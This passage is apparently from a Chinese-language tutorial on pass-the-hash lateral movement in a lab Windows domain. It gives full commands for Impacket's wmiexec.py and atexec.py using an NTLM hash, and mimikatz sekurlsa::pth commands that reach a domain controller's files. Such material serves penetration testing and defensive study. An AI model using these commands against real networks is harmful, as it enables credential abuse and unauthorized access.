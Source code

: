 ### wmiexec

当然还有它的 python 版本，也是在是 [impacket](https://link.zhihu.com/?target=https%3A//github.com/SecureAuthCorp/impacket) 里面的一个工具，在 kali 是已经预装好的，用法跟 smbexec.py 是一致的：

```
wmiexec.py hack.lab/testuser@172.16.0.106 -hashes 'aad3b435b51404eeaad3b435b51404ee:de26cce0356891a4a020e7c4957afc72'

```

结果如下图：

![](https://pic1.zhimg.com/v2-5523e08cc8a57a2af28adc33a3ac0440_r.jpg)

### Atexec

这个就是自动化实现计划任务的方式，也是在是 [impacket](https://link.zhihu.com/?target=https%3A//github.com/SecureAuthCorp/impacket) 里面的一个工具。

使用方法如下：

```
atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:de26cce0356891a4a020e7c4957afc72 hack.lab/testuser@172.16.0.106 whoami

```

如下图：

![](https://pic4.zhimg.com/v2-7070f35b856cd04240437773240f2893_r.jpg)

### Mimikatz

又是耳熟能详的 **Mimikatz** 大杀器了，mimikatz 的 pth 功能需要本地管理员权限，这是由它的实现机制决定的，需要先获得高权限进程 lsass.exe 的信息。

可以到 GitHub 下载新版的：[https://github.com/gentilkiwi/mimikatz](https://link.zhihu.com/?target=https%3A//github.com/gentilkiwi/mimikatz)

可以看到我们一开始无法连接到 dc 服务器查看 c 盘下的文件：

![](https://pic4.zhimg.com/v2-48aa5c60d7bde1ebed57f246758266e7_r.jpg)

我们在主机上启动我们的 mimikatz 工具，执行以下命令：

```
privilege::debug
sekurlsa::pth /user:testuser /domain:hack.lab /ntlm:de26cce0356891a4a020e7c4957afc72

```

![](https://pic1.zhimg.com/v2-525fde82e8493d3cbe3cdbd52d04794c_r.jpg)

就会弹出一个 cmd 命令窗口，这次我们再次输入就能重新列出 dc 上 c 盘的文件：

![](https://pic1.zhimg.com/v2-fec3d23b24263dc01bf11460ffe58a5c_r.jpg)
